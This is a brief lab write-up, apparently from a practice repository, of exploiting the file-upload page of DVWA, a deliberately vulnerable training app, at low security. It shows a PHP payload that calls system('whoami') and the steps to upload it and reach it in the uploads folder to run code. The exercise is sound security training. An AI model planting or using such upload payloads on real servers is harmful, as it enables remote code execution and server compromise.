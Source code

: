 # DVWA - File Upload RCE (Low)

**Target:** File Upload Page
**Sec Level:** Low

**Payload:** text.php
```php  
  <?php echo "Hi there~ !"; system('whoami'); ?>  
```
    
## Steps taken:
1. Set sec to low
2. Upload test.php
3. Access the file via /dvwa/hackable/uploads/test.php
4. Successful code exe

## Final notes
improper file validation can lead to remote code execution - in specific environments, this can be exploited for full server compromise
